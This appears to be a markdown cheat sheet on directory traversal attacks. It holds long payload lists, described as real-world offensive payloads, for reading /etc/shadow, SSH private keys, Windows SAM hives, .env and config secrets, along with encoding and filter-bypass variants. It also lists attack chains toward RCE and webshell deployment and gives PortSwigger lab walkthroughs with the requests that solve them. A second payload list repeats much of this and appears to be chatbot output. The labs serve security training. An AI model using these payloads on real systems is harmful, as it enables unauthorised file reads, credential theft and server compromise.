









# **✅ Directory Traversal Attack – Complete Test Case (with Bypass Cases)**

1 Basic Path Traversal (“../” sequences)

2 Encoded Path Traversal (URL, Unicode, UTF-8)

3 Double-Encoded Traversal

4 Null Byte Injection (Legacy PHP/Java)

5 Absolute Path Injection

6 Filter Bypass using Nested Traversal

7 Path Normalization Vulnerability

8 Directory Traversal via File Upload

9 Traversal inside ZIP, TAR extraction

10 Traversal in API parameters (/download?file=)

11 Log File / Sensitive File Exposure

12 OS Command File Read Chaining

13 Traversal via Path Overwrite (%2e%2e/)

14 Mixed Encoding Traversal

15 SSRF → Traversal on server-side FS

---

# **2. Sample Payloads (Core Attack Payloads)**

*(Clean structure — normal payload list)*

```
2.1 Basic Traversal
../../../../etc/passwd
```

```
2.2 Windows Traversal
..\..\..\windows\win.ini
```

```
2.3 Absolute Path Injection
/etc/shadow
```

```
2.4 Traversal Using Null Byte
../../etc/passwd%00.jpg
```

```
2.5 API Traversal Attempt
/download?file=../../../../etc/hosts
```

```
2.6 Traversal via Image Parameter
?path=../../uploads/
```

```
2.7 Within ZIP/TAR Extraction
../../../../var/www/html/shell.php
```

```
2.8 Directory Enumeration
../../../../
```

---

# **3. Sample Payloads (Updated With Real Payloads for Learning)**

*(Actual offensive payloads widely used in real-world exploitation)*

```
3.1 Unix Sensitive File Read
../../../../../../etc/shadow
```

```
3.2 SSH Key Extraction
../../../../../home/user/.ssh/id_rsa
```

```
3.3 Apache Log Poisoning → RCE Chain
../../../../var/log/apache2/access.log
```

```
3.4 PHP Session Stealing
../../../../var/lib/php/sessions/sess_12345
```

```
3.5 Configuration File Leak
../../../../etc/mysql/my.cnf
```

```
3.6 Read Application Secrets
../../../../app/config/config.json
```

```
3.7 Windows SAM File Read
..\..\..\Windows\System32\config\SAM
```

```
3.8 Tomcat Credentials Read
../../../../conf/tomcat-users.xml
```

```
3.9 NGINX Passwords
../../../../etc/nginx/.htpasswd
```

```
3.10 Source Code Read
../../../../var/www/html/index.php
```

---

# **4. Bypass Techniques (Filter, Encoding, WAF, Normalization)**

*(Bypass payload list only)*

```
4.1 URL Encoded Traversal
..%2f..%2f..%2fetc%2fpasswd
```

```
4.2 Double URL Encoding
..%252f..%252fetc%252fpasswd
```

```
4.3 Mixed Encoding Technique
..%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

```
4.4 Unicode Bypass
..%c0%af..%c0%af..%c0%afetc/passwd
```

```
4.5 Hex Encoded Bypass
..%2e%2e%5cetc%5cpasswd
```

```
4.6 Overlong UTF-8 Bypass
..%c0%ae%c0%ae/
```

```
4.7 Path Injection Using Dot Trick
....//....//etc/passwd
```

```
4.8 Backslash Injection for Windows
..\\..\\..\\boot.ini
```

```
4.9 Filtering Bypass with Fake Folder Prefix
..%2f..%2fsub/../etc/passwd
```

```
4.10 Trailing Slash Normalization Bypass
../../../../etc/passwd/
```

---

# **5. Advanced Attack Chains (Real-World Exploitation)**

```
5.1 Directory Traversal → Log Poisoning → RCE
../../../../var/log/nginx/access.log
```

```
5.2 Directory Traversal → Read DB Credentials → DB Takeover
../../../../../var/www/app/.env
```

```
5.3 Directory Traversal → Config Read → Admin Password Leak
../../../../../config/admin.php
```

```
5.4 ZIP Slip (Unzip Traversal) → Webshell Deployment
../../../../var/www/html/shell.php
```

```
5.5 Path Traversal → LFI → RCE Chain
../../../../var/www/html/index.php?page=../../../../etc/passwd
```

```
5.6 Web Cache → Traversal → Credential Theft
../../../../../etc/apache2/.htpasswd
```

```
5.7 Traversal → Private SSH Key Leak → Full Server Access
../../../../home/appuser/.ssh/id_rsa
```

01 File path traversal, simple case
===================================

This lab contains a file path traversal vulnerability in the display of product
images.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:


To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


02 File path traversal, traversal sequences blocked with absolute path bypass
=============================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks traversal sequences but treats the supplied filename as
being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:


To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 - File path traversal, traversal sequences stripped non-recursively
======================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application strips path traversal sequences from the user-supplied filename
before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/kb/issues/00100300_file-path-traversal

-   https://portswigger.net/web-security/file-path-traversal

Generated link:
https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/

When accessing Home or a post we have GET requests like this one:




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


04 File path traversal, traversal sequences stripped with superfluous URL-decode
================================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks input containing path traversal sequences. It then
performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal


To retrieve an image the application uses a GET request with the parameter
filename:


To retrieve /etc/passwd we need to use double URL encode the characters:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 File path traversal, validation of start of path
===================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application transmits the full file path via a request parameter, and
validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename and the full path:



To retrieve /etc/passwd we need the path to start with “/var/www/images/”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/var/www/images/../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 File path traversal, validation of file extension with null byte bypass
==========================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application validates that the supplied filename ends with the expected file
extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:


To retrieve /etc/passwd we need to use the null byte:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd%00.png
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# 14 - File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References:

- https://portswigger.net/kb/issues/00100300_file-path-traversal

- https://portswigger.net/web-security/file-path-traversal

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

---------------------------------------------

Generated link: https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/


When accessing Home or a post we have GET requests like this one:


```
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
```


Below is the **Directory Traversal – Complete Bypass Payload List**, written in the **same format** as your previous ones (SSTI / OS Command Injection / Request Smuggling / SSRF / XXE / Host Header / CORS etc.).

This includes **Linux/Windows paths, filter bypass, encoding tricks, double encoding, Unicode, null byte, traversal over SMB/NFS, absolute/relative path attacks**, and **real-world bug bounty payloads**.

---

# ⭐ **Directory Traversal – Complete Bypass Payload List**

---

# **1. Core Directory Traversal Payloads**

### Basic traversal

```
../etc/passwd
../../../../etc/passwd
..\..\..\windows\win.ini
```

### Absolute paths

```
/etc/passwd
c:\windows\win.ini
```

---

# **2. Double Traversal (Common on Apache / Nginx)**

```
....//....//etc/passwd
....\/....\/etc/passwd
```

---

# **3. Traversal with Mixed Separators**

```
..\/..\/..\/etc/passwd
..\../..\../windows/win.ini
```

---

# **4. URL Encoding Bypass**

### Basic URL encoding

```
..%2f..%2f..%2fetc/passwd
..%5c..%5cwindows%5cwin.ini
```

### Double / triple encoding

```
..%252f..%252fetc/passwd
..%255c..%255cwindows%255cwin.ini
```

---

# **5. Unicode Bypass Payloads**

```
..%c0%af..%c0%afetc/passwd
..%c1%1c..%c1%1cwindows/win.ini
```

---

# **6. Null Byte Injection (Legacy PHP / Java)**

```
../../etc/passwd%00.png
../../../windows/win.ini%00.txt
```

---

# **7. Directory Traversal via Filename Tricks**

### Dotless traversal

```
/etc/passwd/.
```

### Using hidden dirs

```
/etc/./passwd
```

---

# **8. Filter Bypass: Blocked “../”**

### Replacing dot with encoded dot

```
.%2e/
%2e./
%2e%2e/
```

### Inverted traversal

```
/etc/passwd%2e%2e/
```

---

# **9. Filter Bypass: Blocked Slash**

### Backslashes

```
..\..\..\etc\passwd
```

### URL encoded slash

```
..%2f..%2f/etc/passwd
```

### Slash via Unicode

```
..%c0%af..%c0%afetc/passwd
```

---

# **10. Using Wildcards**

```
/etc/pas*wd
/var/log/*.log
```

---

# **11. Overlong UTF-8 Encoding**

```
..%ef%bc%8f..%ef%bc%8fetc/passwd
```

---

# **12. Bypass Path Normalization**

### Insert fake folders

```
../safe/../etc/passwd
folder/../../../../etc/passwd
```

---

# **13. Windows UNC Path Traversal (SMB)**

```
\\127.0.0.1\c$\windows\win.ini
\\localhost\c$\users\public
```

---

# **14. Trailing Characters Bypass**

```
../../etc/passwd.
../../etc/passwd//
../../etc/passwd?
../../etc/passwd#
```

---

# **15. Base64 Encoded Path Injection (Used in APIs)**

```
Li4vLi4vLi4vZXRjL3Bhc3N3ZA==   # ../../../etc/passwd
```

---

# **16. Path Traversal in ZIP / TAR Archives**

### ZIP Slip attack

```
../../../../var/www/html/shell.php
```

Inside ZIP entry name.

---

# **17. Traversal via Symlink Abuse**

```
ln -s /etc/passwd /var/www/html/test.txt
```

Then access:

```
/files/test.txt
```

---

# **18. Path Traversal via Null Folder Names**

```
.../. /.../etc/passwd
```

---

# **19. Bypass via URL Prefix (File Wrapper)**

### PHP filters

```
php://filter/resource=../../etc/passwd
```

### File wrapper

```
file:///etc/passwd
```

---

# **20. Advanced Real-World Payloads**

### Read SSH keys

```
../../../../root/.ssh/id_rsa
```

### Read Cron jobs

```
../../../etc/crontab
```

### Read Application Secrets

```
../../../../var/www/html/.env
```

### Read Windows Registry Hives

```
..\..\Windows\System32\config\SAM
..\..\Windows\System32\config\SYSTEM
```

---
